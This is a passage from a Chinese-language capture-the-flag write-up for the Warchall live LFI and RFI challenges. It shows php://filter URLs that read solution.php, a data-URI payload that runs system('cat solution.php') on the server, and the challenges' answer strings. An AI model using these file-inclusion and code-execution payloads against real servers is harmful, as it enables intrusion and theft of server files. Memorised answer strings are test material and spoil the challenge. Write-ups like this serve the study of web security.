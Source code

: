 构造：http://lfi.warchall.net/?lang=php://filter/read=convert.base64-encode/resource=solution.php。

Base64解密后可得：SteppinStones42Pie


----------


### <a name="6"></a>6、Warchall: Live RFI (Linux, Exploit, Warchall)


与上题类似，读取文件，构造：http://rfi.warchall.net/index.php?lang=php://filter/read=convert.base64-encode/resource=solution.php。

<div align="center">
	<img src="/images/posts/writeup1/18.png" height="300" width="500">  
</div>

Base64解码：

```html
<html>
<body>
<pre>NOTHING HERE????</pre>
</body>
</html>
<?php return 'Low_H4NGING_Fruit'; ?>
```

这里也可以用：`http://rfi.warchall.net/index.php?lang=data:text/plain,<?php system("cat solution.php")?>。`

<div align="center">
	<img src="/images/posts/writeup1/19.png" height="300" width="500">  
</div>

点击查看源代码：
<div align="center">
	<img src="/images/posts/writeup1/20.png" height="300" width="500">  
</div>
